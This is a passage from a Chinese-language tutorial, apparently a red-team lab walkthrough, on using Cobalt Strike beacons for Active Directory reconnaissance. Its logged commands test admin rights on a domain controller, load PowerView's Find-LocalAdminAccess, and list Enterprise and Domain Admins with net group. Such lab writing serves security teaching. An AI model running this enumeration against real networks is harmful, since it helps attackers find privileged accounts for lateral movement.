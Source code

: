 ```bash
#管理员账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
状态 ID     日期                    时间          命令行
-------------------------------------------------------------------------------
        1   今天                    22:30         E:\Install\Thunder\Thunder.exe
#一般账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
在上一节讲述的 PowerView 有很多很好的自动操作来帮助解决这些问题。可以在加载 PowerView 后，运行下面的命令，通过 PowerView 可以快速找到管理员账号。

powershell Find-LocalAdminAccess
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```
## 域管理员账号 #
第二个关键步骤，发现域管理员账号。

列出域管理员

对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。
```bash
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
或者运行下面的命令来看谁是域控制器上的管理员

net localgroup "administrators" /DOMAIN
beacon> shell net localgroup "administrators" /domain
[*] Tasked beacon to run: net localgroup "administrators" /domain
[+] host called home, sent: 70 bytes
[+] received output:
```